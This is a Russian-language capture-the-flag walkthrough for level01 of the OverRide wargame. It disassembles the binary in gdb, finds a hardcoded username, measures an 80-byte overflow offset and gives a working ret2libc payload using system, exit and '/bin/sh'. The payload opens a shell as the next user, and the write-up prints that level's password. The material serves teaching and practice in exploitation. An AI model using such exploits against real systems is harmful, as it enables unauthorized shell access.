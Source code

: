 [back](../defense.md)

su level01

Password: uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

В этом уровне программа level01 просит ввести имя пользователя:

```
level01@OverRide:~$ ./level01
	********* ADMIN LOGIN PROMPT *********
	Enter Username: qwe
	verifying username....

	nope, incorrect username...

gdb level01
(gdb) disas main
```

Среди прочих, есть интресная строка
```
0x0804852d <+93>:	call   0x8048464 <verify_user_name>
```
Смотрим, что в ней.

Видим там команду сравнения регистров edi & esi с пересылками перд ними.
```
0x08048478 <+20>:	mov    $0x804a040,%edx
0x0804847d <+25>:	mov    $0x80486a8,%eax
0x08048482 <+30>:	mov    $0x7,%ecx
0x08048487 <+35>:	mov    %edx,%esi
0x08048489 <+37>:	mov    %eax,%edi
0x0804848b <+39>:	repz cmpsb %es:(%edi),%ds:(%esi)
```

В регистр edi идет пересылка с регистра eax, куда записывается значение с адреса 0x80486a8

А в регистр esi идет пересылка с регистра edx, куда записывается значение с адреса 0x804a040

Пройдясь по адресам видим, что по одному адресу лежит имя пользователя, а во втором то, что мы вводим:

```
(gdb) x/s 0x804a040
	0x804a040 <a_user_name>:	 ""

(gdb) x/s 0x80486a8
	0x80486a8:	 "dat_wil"
```

Соответственно dat_wil это имя пользователя.

Осталось добыть пароль

Предварительно создаем последовательность переполнения буфера

```
(gdb) r
	Starting program: /home/users/level01/level01
	********* ADMIN LOGIN PROMPT *********
	Enter Username: dat_wil
	verifying username....
	Enter Password:
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
	nope, incorrect password...
	Program received signal SIGSEGV, Segmentation fault.
	0x37634136 in ?? ()
```

и подставляем значение https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

```
	EIP Value: 
	0x37634136
	Offset:
	80
	(Bytes are in reverse order. ex 0xDEADBEEF is showing as 0xEFBEADDE)
```

Ищем, где лежит /bin/sh
```
(gdb) info proc map
	process 2840
	Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fdb000     0x3000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
	0xf7f897ec
	1 pattern found.

(gdb) x/s 0xf7f897ec
	0xf7f897ec:	 "/bin/sh"
```

Ищем системную функцию:
```
(gdb) i func system
	All functions matching regular expression "system":
	Non-debugging symbols:
	0xf7e6aed0  __libc_system
	0xf7e6aed0  system
	0xf7f48a50  svcerr_systemerr

(gdb) i func exit
	0xf7e5eb70  exit
```

"A"*80 - смещение

0xf7e6aed0  system

0xf7e5eb70  exit

0xf7f897ec:	 "/bin/sh"

```
(gdb) q
	y

level01@OverRide:~$ (python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"'; cat) | ./level01
	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....
	Enter Password:
	nope, incorrect password...

whoami
	level02

cd /home/users/level02
ls -la
cat .pass
	Password: PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
exit
su level02
Password: PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

Уровень пройден.

[back](../defense.md)
